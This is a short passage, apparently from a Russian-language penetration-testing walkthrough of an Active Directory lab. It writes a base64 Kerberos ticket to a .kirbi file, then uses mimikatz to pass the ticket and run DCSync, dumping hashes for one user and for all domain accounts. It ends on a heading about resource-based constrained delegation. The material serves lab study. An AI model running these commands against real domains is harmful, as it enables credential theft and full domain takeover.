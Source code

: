 ```
[IO.File]::WriteAllBytes(“winterfell.kirbi”, [Convert]::FromBase64String(“base64-ticket”))
```

![](/images/coerce/Pasted%20image%2020250106110452.png)


```
mimikatz # kerberos::ptt winterfell.kirbi
lsadump::dcsync /domain:north.sevenkingdoms.local /user:eddard.stark
lsadump::dcsync /all
```

![](/images/coerce/Pasted%20image%2020250106112501.png)

**Ограниченное делегирование Kerberos на основе ресурсов**
